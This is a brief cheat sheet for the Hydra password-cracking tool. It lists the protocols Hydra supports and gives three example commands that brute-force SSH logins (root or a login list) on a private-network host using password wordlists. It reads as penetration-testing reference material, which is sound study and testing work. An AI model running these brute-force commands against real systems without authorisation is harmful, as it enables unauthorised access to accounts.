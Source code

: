 #### Introduction

Hydra is a password cracking utility that is very useful for cracking various types of systems. It supports a large number of systems:

Cisco AAA, Cisco auth, Cisco enable, CVS, FTP, HTTP(S)-FORM-GET, HTTP(S)-FORM-POST, HTTP(S)-GET, HTTP(S)-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MySQL, NNTP, Oracle Listener, Oracle SID, PC-Anywhere, PC-NFS, POP3, PostgreSQL, RDP, Rexec, Rlogin, Rsh, SIP, SMB(NT), SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

#### Links

Hydra is built into Kali

- https://tools.kali.org/password-attacks/hydra

#### Usage

Attempting to login into to a remote system (as root) using a set password list

- hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://192.168.0.185

Attempting to login into to a remote system (as root) using a custom saved password list

- hydra -l root -P passwords.txt -t 6 ssh://192.168.0.185

Attempting to login into to a remote system using a custom login list and using a custom saved password list (note the upper case "L")

- hydra -L login.txt -P passwords.txt -t 6 ssh://192.168.0.185

